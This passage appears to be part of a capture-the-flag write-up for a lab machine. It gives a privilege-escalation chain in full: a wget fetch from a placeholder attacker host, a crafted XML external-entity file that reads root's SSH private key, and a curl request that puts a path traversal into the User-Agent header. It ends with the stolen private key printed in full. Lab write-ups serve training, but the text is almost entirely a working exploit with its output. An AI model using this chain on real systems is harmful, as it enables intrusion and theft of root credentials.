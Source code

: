 	wget <attacker_ip>/greg.jpg

###### Craft a malicious xml file to grab root's SSH private key

Victim:

	vi privesc_creds.xml

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY key SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/../../../../../../../home/woodenk/greg.jpg</uri>
    <privesc>&key;</privesc>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

	cp greg.jpg privesc_creds.xml /home/woodenk

###### Trigger the exploit

Attacker:

	curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/greg.jpg"

	curl http://10.10.11.170:8080/export.xml?author=woodenk | /dev/null

Victim:

After a few moments...

	cat /home/woodenk/privesc_creds.xml

```text
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE replace>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/../../../../../../../home/woodenk/greg.jpg</uri>
    <privesc>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
</privesc>
    <views>3</views>
  </image>
  <totalviews>3</totalviews>
</credits>
```
